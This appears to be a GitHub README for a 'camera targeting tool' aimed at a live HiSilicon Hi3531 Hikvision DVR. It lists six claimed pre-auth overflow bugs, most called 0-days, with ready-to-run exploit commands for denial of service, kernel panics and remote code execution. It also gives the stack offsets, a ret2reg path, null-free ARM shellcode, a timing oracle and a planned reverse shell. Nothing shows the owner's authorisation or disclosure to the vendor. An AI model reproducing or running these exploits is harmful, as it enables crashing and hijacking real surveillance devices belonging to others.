

<div align="center">

```
  ██████╗██████╗  █████╗ ███████╗██╗  ██╗    ██████╗  █████╗ ███╗   ██╗██████╗
 ██╔════╝██╔══██╗██╔══██╗██╔════╝██║  ██║    ██╔══██╗██╔══██╗████╗  ██║██╔══██╗
 ██║     ██████╔╝███████║███████╗███████║    ██████╔╝███████║██╔██╗ ██║██║  ██║
 ██║     ██╔══██╗██╔══██║╚════██║██╔══██║    ██╔══██╗██╔══██║██║╚██╗██║██║  ██║
 ╚██████╗██║  ██║██║  ██║███████║██║  ██║    ██████╔╝██║  ██║██║ ╚████║██████╔╝
  ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝    ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═════╝
          ⊕  H I K V I S I O N   C A M E R A   T A R G E T I N G   T O O L  ⊕
```

**Independent pre-auth vulnerability research on a live HiSilicon Hi3531 DVR.**  
No CVE database consulted. No source code. No debugger. Pure dynamic analysis.


<br>




</div>

---

## Target

| | |
|---|---|
| **IP** | `█████████████` |
| **Services** | RTSP `:554` · HTTP `:80` |
| **SoC** | HiSilicon Hi3531 — ARM Cortex-A9 r0p1, ARMv7-A, 32-bit LE |
| **Firmware** | `digicap.dav` — version `3050060061181310011`, AES-256-ECB |
| **Web banner** | `"Embedded Net DVR"` · jQuery 1.7.1 · realm `DVRDVS` |
| **Protections** | ASLR ✗ · NX ✗ · Stack canary ✗ · Watchdog ✓ |

---

## Vulnerabilities

| # | Vector | Field | Class | CVSS | Impact | CVE? |
|---|--------|-------|-------|------|--------|------|
| 1 | RTSP | `User-Agent` | Stack BOF | **9.8** | DoS ✅ · RCE 🔄 | None for this firmware |
| 2 | RTSP | `Transport` `client_port=` | Heap BOF | **7.5** | DoS ✅ | **0-day** |
| 3 | RTSP | `Scale` | Stack BOF | **8.1** | Kernel panic ✅ | **0-day** |
| 4 | RTSP | `Accept` | Stack BOF | **8.1** | Kernel panic ✅ | **0-day** |
| 5 | HTTP | `Host` | Heap BOF | **7.5** | DoS ✅ | **0-day** |
| 6 | HTTP | Header flood | Stack exhaust | **7.5** | DoS ✅ | **0-day** |

> See [`docs/cve-comparison.md`](docs/cve-comparison.md) for detailed diff against CVE-2014-4878/4879/4880 and CVE-2025-66177.

---

## Quick Start

```bash
# Check target liveness + attack surface
python3 exploits/crashbandicoot.py -t █████████████ --mode check

# DoS — User-Agent stack overflow (CVSS 9.8), crash in ~2.5s
python3 exploits/crashbandicoot.py -t █████████████ --mode dos-ua

# DoS — Scale/Accept kernel panic, full device reboot >90s
python3 exploits/crashbandicoot.py -t █████████████ --mode dos-scale
python3 exploits/crashbandicoot.py -t █████████████ --mode dos-accept

# All DoS vectors sequentially
python3 exploits/crashbandicoot.py -t █████████████ --mode all-dos

# RCE path: blind BX R0 gadget scan in 15MB mmap region
python3 exploits/crashbandicoot.py -t █████████████ --mode scan-bxr0

# RCE confirmation once gadget is found
python3 exploits/crashbandicoot.py -t █████████████ --mode rce --gadget 0xXXXXXXXX
```

> Requires Python 3 + Pillow (`pip install Pillow`). No other dependencies.

---

## Stack Layout (confirmed, no debugger)

```
User-Agent bytes:

  ┌──────────────────────────────────────────────────────┐
  │  [0   – 101]  ua_buf      102 bytes  strcpy dst       │  ← shellcode goes here
  │  [102 – 215]  locals      114 bytes  stack locals     │
  │  [216 – 247]  R4–R11       32 bytes  saved registers  │  ← must be kernel-space
  │  [248 – 251]  saved PC      4 bytes                   │  ← PC_OFFSET = 248
  └──────────────────────────────────────────────────────┘

Null-byte constraint: strcpy() stops at 0x00
→ every byte of payload including the return address must be non-zero
```

---

## RCE Path (ret2reg)

```
strcpy(ua_buf, user_agent)
       └─ R0 = ua_buf  (AAPCS return value)

Overflow saved PC → BX R0 gadget (0xe12fff10, null-free)
       └─ CPU branches to R0 = ua_buf
              └─ executes LOOP_SC in ua_buf → infinite loop
                     └─ service never restarts → DEAD oracle (>20s) → RCE confirmed
```

```python
# LOOP beacon shellcode — 102 bytes, ARM32, 100% null-free
ARM_NOP  = b'\x01\x10\xa0\xe1'   # MOV R1,R1  (0xe1a01001 = kernel space)
ARM_LOOP = b'\xfe\xff\xff\xea'   # B .         (spin forever)
LOOP_SC  = ARM_NOP * 24 + ARM_LOOP + b'\x01\x01'
```

**Status:** oracle working (HIT=2.5s, 0 false DEADs) · 117/938 gadget candidates scanned · BX R0 not yet found

---

## Timing Oracle

The only feedback channel is *how fast the watchdog restarts RTSP* after a crash:

```
< 15s   →  HIT   — crash in user-space, watchdog restarted
> 90s   →  PANIC — kernel panic, full device reboot (Scale / Accept vectors)
> 20s,
no restart → DEAD — shellcode loop is running → RCE confirmed
```

No GDB. No UART. No `/proc`. Just a stopwatch.

---

## Firmware

```
digicap.dav  294 MB  AES-256-ECB  (key unknown)

HK20 outer header  108 bytes  XOR-obfuscated  key: public (hiktools)
  └─ HK30 inner header  16 bytes
       └─ Encrypted body  ~280 MB  AES-256-ECB

Findings without the key:
  · ECB mode → 40 065 repeated blocks → 626 KB of partition layout recovered
  · Fake checksum (checksum == header_length)
  · No HMAC / signature → backdoor injection trivial if key known
  · Plaintext footer: last 5 bytes unencrypted ("ation")
  · Hardcoded dev IP 172.9.4.222 in common.js
```

---

## Project Structure

```
.
├── exploits/
│   ├── crashbandicoot.py        ← main framework (all vectors + logo)
│   └── rtsp_bxr0_scan.py        ← standalone BX R0 gadget scanner
│
├── docs/
│   ├── cve-comparison.md        ← our findings vs CVE-2014-4878/79/80, 2025-66177
│   ├── vulnerabilities/
│   │   ├── 01-ua-stack-overflow.md
│   │   ├── 02-transport-heap.md
│   │   ├── 03-scale-panic.md
│   │   ├── 04-accept-panic.md
│   │   ├── 05-http-host-overflow.md
│   │   └── 06-http-flood.md
│   ├── methodology/
│   │   ├── timing-oracle.md
│   │   ├── ret2reg.md
│   │   └── payload-construction.md
│   └── firmware/
│       ├── format-analysis.md
│       └── ecb-leak.md
│
├── research/
│   ├── RESEARCH.md              ← consolidated technical report
│   └── research_log.md          ← daily log, days 1–13 + conclusion
│
└── tools/                       ← 17 recon/analysis scripts
```

---

## What's Next (if resumed)

1. **Dense gadget scan** — `--step 0x401` → ~3 800 candidates, ~6h, near-full coverage
2. **Decrypt firmware** — AES-256 key likely in another binary on device; need RCE first (chicken-and-egg)  
3. **Try BX R4** — R4 is directly controlled via payload bytes [216–219]; needs known ua_buf address
4. **ARM32 reverse shell** — null-free, ≤102 bytes; replace LOOP_SC once gadget confirmed

---

## Key Numbers

```
PC_OFFSET   248 bytes    confirmed via De Bruijn sequence
ua_buf      102 bytes    confirmed via binary search (103 = crash)
mmap range  0x40000000 – 0x40F30000   ~15 MB   mapped + executable
BX R0       \x10\xff\x2f\xe1          null-free, 4-aligned
ARM_NOP     \x01\x10\xa0\xe1          LE=0xe1a01001 (kernel space, null-free)
Watchdog    ~2.5s (user crash)  /  >90s (kernel panic)  /  never (RCE)
0-days      5–6 (Transport · Scale · Accept · Host · Flood + UA on new firmware)
```

---

<div align="center">

*Research closed: 2026-05-26 · All findings original · No CVE database consulted*

</div>
